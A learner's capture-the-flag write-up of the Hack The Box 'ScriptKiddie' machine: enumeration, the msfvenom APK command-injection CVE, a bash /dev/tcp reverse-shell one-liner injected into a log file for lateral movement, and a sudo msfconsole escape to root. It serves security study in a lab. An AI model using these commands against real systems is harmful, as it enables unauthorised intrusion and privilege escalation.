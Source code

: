 ```yaml
---
title: "ScriptKiddie HTB"
date: 2021-08-28T17:30:30
categories:
  - study
tags:
- Linux
- Outdated Software
classes: wide
---
```

ScriptKiddie is an easy rated Linux box from May 2021. The HTB writeup PDF describes it as:

>*"ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384), 
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration. "*

[Link.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/scriptkiddie

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is open running ssh, specifically OpenSSH 8.2p1 on Ubuntu.
- Reveals a web server on 5000, with Werkzeug 0.16.1 running on Python 3.8.5. [Werkzeug](https://werkzeug.palletsprojects.com/en/2.0.x/) is a *"is a comprehensive WSGI web application library."* 

[WSGI](https://wsgi.readthedocs.io/en/latest/what.html) refers to:

>*"Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request."*

Accessing the site at http://10.10.10.226:5000/ we see 3 inputs for a basic "hackers toolbox".

There are numerous "tools" present on the page, including an Nmap tool, msfvenom and a earchsploit tool. 

I assume that the Nmap and Searchsploit simply run the binaries and display results. The venom generator allows us to upload files to it, this 
could be a potential exploit point. But at this point I am lost, reading writeups it seems that the vulnerabillity is within msfvenom 
itself. This [Github page](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md) by the exploit author Justin Steven explains the vuln and references it as [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). They explain that:

>*"There is a command injection vulnerability in msfvenom when using a crafted APK file as an Android payload template.
Metasploit Framework provides the msfvenom tool for payload generation. For many of the payload types provided by msfvenom, it allows the user to provide a "template" using the -x option."*

It seems that using a "poisoned" or evil APK file as a template can result in command injection on the template user's system. More details:

>*"An attacker who could trick an msfvenom user into using a crafted APK file as a template could execute arbitrary commands on the user's system.
For example, an attacker could prepare and publish a crafted APK file that they believe is an enticing template. If a user of Metasploit Framework obtains that APK file and attempts to use it as an msfvenom template, arbitrary commands can be executed on that user's machine."*

For this it seems the following criteria can result in a command injection vuln.

If a crafted APK file has a signature with an "Owner" field containing:
- A single quote (to escape the single-quoted string)
- Followed by shell metacharacters"


<h2>Foothold</h2>

We follow the instructions from the [exploitdb](https://www.exploit-db.com/exploits/49491) page of CVE-2020-7384. Which involved downloading a python script to generate an "evil.apk" file. We start our nc listener, set the target as Android on the website as apk's are android files. We then we upload and catch the shell.

Now we have a shell, we upgrade to a tty with `/usr/bin/script -qc /bin/bash /dev/null`. We find the user flag in kid's home folder.

<h2>Lateral movement</h2>
I am way out of my depth here.

According to the writeups it seems that lateral movement to another user is required.
We see that there is a script called `scanlosers.sh` in a user called `pwn`'s home directory. Reading the script we see that it 
reads rows from the `/home/kid/logs/hackers` file to read IP addresses and run nmap on them: We find the other logs in `./html`,
a handy command is:

```bash
kid@scriptkiddie:~/html$ grep -R logs .
grep -R logs .
./app.py:        with open('/home/kid/logs/hackers', 'a') as f:
```
This searches files for the presence of logs.

We see that `app.py` writes to `/home/kid/logs/hackers.`

Reading app.py we see that it writes to the logs directory when non-alphanumeric characters are input into the website's searchsploit field. The writer assumes that submitted non-alpha characters represent an attempt to *"hacK"* them so they note ip addresses of users who submit them in a log and run Nmap on them. 

`scanlosers.sh` does not perform any input validation so we can perform "arbitrary OS command injection" by inputting our reverse shell in there, the command is executed by scanlosers.sh, giving us a shell as pwn as pwn owns scanlosers.sh. 

Putting the reverse shell into `/home/kid/logs/hackers.` with `echo 'a b $(bash -c "bash -i &>/dev/tcp/YOURIP/YOURPORT 0>&1")' > /home/kid/logs/hackers` gives us the reverse shell as pwn.

<h2>Privilege Escalation</h2>

Now that we are `pwn`, running `sudo -l` we see:

```bash
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Since we can run msfconsole as sudo, we simply run it as sudo and then drop into the integrated ruby shell with command `irb`. 
Then run `system("/bin/bash")` which drops us into a root shell, and the root flag can be found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Enumerate the contents of the home directories more carefully, figure out what scripts are doing and what they may be writing to.
- Ippsec uses pspy alot, which seems to be a good process monitor. Run it, and then interact with the website to see what processes are called and when.
- Things sometimes write logs, in which case figure out where they are writing to and what else uses them.
- As for foothold, try to find a CVE on everything, don't be afraid to just try them. It isn't a race.


